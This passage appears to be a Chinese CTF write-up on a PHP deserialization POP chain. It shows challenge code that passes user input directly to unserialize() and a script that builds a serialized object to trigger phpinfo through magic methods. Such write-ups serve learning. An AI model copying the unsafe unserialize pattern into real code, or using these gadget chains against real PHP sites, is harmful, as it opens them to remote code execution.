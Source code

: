 ```php
}

class Welcome {
    public function __invoke()
    {
        Check::$str2 = true;
        return "Welcome" . $this->username;
    }
}

class Bypass {

    public function __destruct()
    {
        if (Check::$str1) {
            ($this->str4)();
        } else {
            throw new Error("Error");
        }
    }
}

if (isset($_GET['code'])) {
    unserialize($_GET['code']);
} else {
    highlight_file(__FILE__);
}

```

这就是个常规的`pop`链的构成。

几个魔法函数：

```
__wakeup():当调用unserialize时触发
__toString():当类被当作字符串时调用
__invoke():当把类当作函数处理时调用
```

#### 先看phpinfo():

**方法1：**

```php
<?php
class Hint {

    public function __wakeup(){
        $this->hint = "no hint";
    }

    public function __destruct(){
        if(!$this->hint){
            $this->hint = "phpinfo";
            ($this->hint)();
        }
    }
}
$a=new Hint();
echo serialize($a);
```
